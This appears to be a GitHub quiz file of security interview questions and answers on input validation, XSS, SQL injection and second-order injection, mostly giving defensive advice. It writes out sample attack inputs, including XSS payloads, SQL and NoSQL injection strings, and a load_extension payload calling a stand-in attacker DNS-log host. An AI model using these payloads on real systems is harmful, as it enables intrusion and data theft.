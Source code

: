 # 🧪 Subtopic Quiz — 1.1.1 Input Validation Fundamentals

This file contains real-world interview questions and finalized answers for this subtopic.

---

### 🧩 Question 1:
**Developer says:**  
"We're validating user input with a regex on the frontend and disallowing angle brackets (`<`, `>`), so XSS isn't a problem."

✅ **Final Answer:**
"This approach is insecure for several reasons:

1. Client-side validation alone is ineffective — it can be bypassed by disabling JS, intercepting requests, or crafting payloads manually.

2. Simple regex filtering based on angle brackets doesn't stop XSS. Attackers can use:
- HTML entities: `&lt;`, `&gt;`
- Alternate tags like `<svg/onload=alert(1)>`
- Event handlers inside allowed tags: `<img src=x onerror=...>`
- JavaScript contexts like `"><script>...</script>`

3. XSS defenses must be context-aware and server-side:
- Use output encoding based on the injection point (HTML, JS, attribute, etc.)
- Implement Content Security Policy (CSP) to restrict inline script execution
- Use frameworks with built-in escaping (React, Django templates, etc.)


---

### 🧩 Question 2:
**Scenario:**  
You're asked to improve security in a legacy web app vulnerable to both XSS and SQLi. The dev team says they already use basic regex filters to block certain characters.

#### ❓ Questions:
1. Why is encoding as important as input validation?
2. How would you apply context-aware encoding in:
   - HTML body
   - JavaScript context (inline)
   - SQL queries
3. What libraries/tools would you use?

✅ **Final Answer:**

1. **Why encoding is critical:**  
   Input validation attempts to block malicious patterns at entry points but cannot cover every possible payload or bypass technique. Encoding ensures that any untrusted data that reaches the output layer is treated as inert content rather than executable code. It's the last line of defense that neutralizes potentially dangerous characters by converting them into safe equivalents.

2. **Context-aware encoding examples:**
   - **HTML Body:** Encode characters like `<`, `>`, `&`, `"` using HTML entities (e.g., `&lt;`, `&gt;`, `&quot;`) to prevent injection into visible HTML.
   - **JavaScript Context:** Encode `"` as `\x22`, `'` as `\x27`, and escape newlines, backslashes, etc., to prevent breaking out of strings or executing scripts.
   - **SQL Queries:** Use parameterized queries (e.g., `?` placeholders in SQL libraries) rather than trying to encode input manually, which is error-prone.

3. **Recommended Libraries/Tools:**
   - **HTML/JS Encoding:** OWASP Java Encoder (Java), Microsoft AntiXSS (C#), `html-escape` in Python, or templating engines like React/Vue (auto-escape).
   - **SQL Injection Prevention:** Use parameterized queries in libraries like `pg` (PostgreSQL for Node.js), SQLAlchemy (Python), Hibernate (Java), etc.

---

### 🧩 Question 3:
**Scenario:**  
You’re testing a payment endpoint that expects this JSON:
```json
{
  "amount": 100,
  "userId": "user_123"
}
```
The backend is written in a dynamically typed language like Python or JavaScript.

#### ❓ Questions:
1. What types of validation should be enforced on each field?
2. What kinds of attacks could occur if this validation is missing?
3. How would you structure validation logic in a secure backend?

✅ **Final Answer:**

1. **Field-Level Validation:**

   - `amount`:
     - Must be a positive number (no negative or zero)
     - Type check: integer or float
     - Max cap to prevent overflow (e.g., 100000)
   - `userId`:
     - Must match regex like `^user_\d+$`
     - Length-limited (e.g., ≤32 characters)
     - Only alphanumerics and underscore allowed

2. **Possible Attacks Without Validation:**
   - **Amount tampering:** Sending `-100` or `0.01` through MITM tools like Burp Suite to exploit pricing logic
   - **SQL Injection via userId:** e.g., `user_123' OR '1'='1` if string concatenation is used
   - **Type confusion:** Passing objects or booleans instead of expected primitives (e.g., `userId: { "$gt": "" }`)

3. **Secure Backend Validation Workflow:**
   - ✅ **Schema Validation Layer:** Use tools like Joi, zod, or Pydantic to validate input shape, types, and patterns
   - ✅ **Business Logic Validation:** Check price boundaries, enforce discounts on backend only, verify user role
   - ✅ **Vulnerability Guardrails:** Use parameterized queries, avoid string-based DB access, sanitize logs

   Example (Node.js with pg):
   ```js
   const query = 'SELECT * FROM users WHERE userId = $1';
   const values = [req.body.userId];
   db.query(query, values);
   ```

---

### 🧩 Question 4:
**Scenario:**  
You're reviewing a legacy PHP application where the `bio` field submitted during user signup is stored in the database and later rendered in the admin dashboard. A security test revealed that this `bio` content is reused without revalidation or escaping, and it's also passed into SQL queries indirectly via a cron job.

#### ❓ Questions:
1. What type of injection is this?
2. How would you detect and confirm this vulnerability?
3. What mitigation strategies would you apply?

✅ **Final Answer:**

1. **Type of injection:**  
   This is a **Second-Order SQL Injection**. The malicious input is stored in the database during an initial operation (e.g., signup) but the injection occurs later when that data is reused in a different context (e.g., cron job or admin view) without proper sanitization or escaping.

2. **Detection and confirmation:**
   - Insert a payload like `' ; SELECT load_extension('\\\\attacker.dnslog.domain\\abc');--` in the `bio` field during signup.
   - Monitor for delayed SQL execution or out-of-band interactions when the admin dashboard or cron job processes the data.
   - Tools like Burp Collaborator, DNS logs, or backend logs can help confirm this behavior.

3. **Mitigation:**
   - Always validate and sanitize inputs both on entry and before reuse.
   - Apply parameterized queries during *every* database interaction, not just at insertion.
   - Avoid dynamic query construction using previously stored user inputs.
   - Use logging and alerting to detect suspicious behavior or unexpected outbound requests from internal systems.